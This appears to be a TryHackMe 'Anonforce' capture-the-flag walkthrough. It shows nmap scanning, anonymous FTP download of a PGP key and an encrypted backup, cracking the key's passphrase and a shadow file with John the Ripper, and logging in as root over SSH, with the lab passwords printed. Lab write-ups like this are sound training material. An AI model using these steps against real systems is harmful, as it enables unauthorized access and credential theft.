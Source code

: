 # Anonforce

**Room Link:** [https://tryhackme.com/room/bsidesgtanonforce](https://tryhackme.com/room/bsidesgtanonforce)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (265).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (266).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (267).png" alt=""><figcaption></figcaption></figure>

### TCP/21 - FTP

Anonymous login is enabled. There was a folder called notread with a pgp file.

**Kali**

<pre><code><strong>ftp $VICTIM
</strong><strong>> cd notread
</strong><strong>> mget *
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (268).png" alt=""><figcaption></figcaption></figure>

I used john to crack the private.asc file

**Kali**

```
/opt/john/gpg2john private.asc > pgp.hash
john pgp.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (269).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gpg --import private.asc 
Password: xbox360
```

<figure><img src="../../.gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>

I was able to decrypt backup.pgp which had the shadow file

**Kali**

```
gpg --decrypt backup.pgp 
Password: xbox360
```

<figure><img src="../../.gitbook/assets/image (271).png" alt=""><figcaption></figcaption></figure>

I copied the above shadow file and tried cracking this file which gave me roots password.

**Kali**

```
john pass.txt  --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (272).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh root@$VICTIM
Password: hikari
```
